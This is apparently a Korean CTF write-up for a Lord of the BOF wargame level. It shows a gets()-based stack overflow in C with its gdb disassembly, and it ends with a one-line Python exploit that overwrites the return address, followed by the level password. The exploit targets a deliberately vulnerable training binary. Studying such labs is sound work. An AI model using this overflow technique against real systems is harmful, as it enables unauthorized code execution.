 ```yaml
---
title: "BOF - Lv.3 cobolt"
excerpt: "Lv.3 cobolt"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
```
(gdb)
0x80483f8 <main>:       push   %ebp
0x80483f9 <main+1>:     mov    %ebp,%esp
0x80483fb <main+3>:     sub    %esp,16
0x80483fe <main+6>:     lea    %eax,[%ebp-16]
0x8048401 <main+9>:     push   %eax
0x8048402 <main+10>:    call   0x804830c <gets>
0x8048407 <main+15>:    add    %esp,4
0x804840a <main+18>:    lea    %eax,[%ebp-16]
0x804840d <main+21>:    push   %eax
0x804840e <main+22>:    push   0x8048470
0x8048413 <main+27>:    call   0x804833c <printf>
0x8048418 <main+32>:    add    %esp,8
0x804841b <main+35>:    leave
0x804841c <main+36>:    ret
```

## 2. Vulnerability
코드를 보면 gets 함수를 사용함. strcpy()와 같은 이유로 버퍼 오버플로 취약점 발생함. 그리고 버퍼 크기고 작으므로 마찬가지로 환경변수를 이용함.

## 3. Solution
gets 함수는 입력값을 직접 받는 함수기 때문에 strcpy와는 달리 입력값을 주고 파이프```|```로 그 값을 cobolt에 줘야함.  
```
(python -c 'print "A"*20+"\x0e\xfc\xff\xbf"'; cat) | ./goblin
``` 
my-pass : hackers proof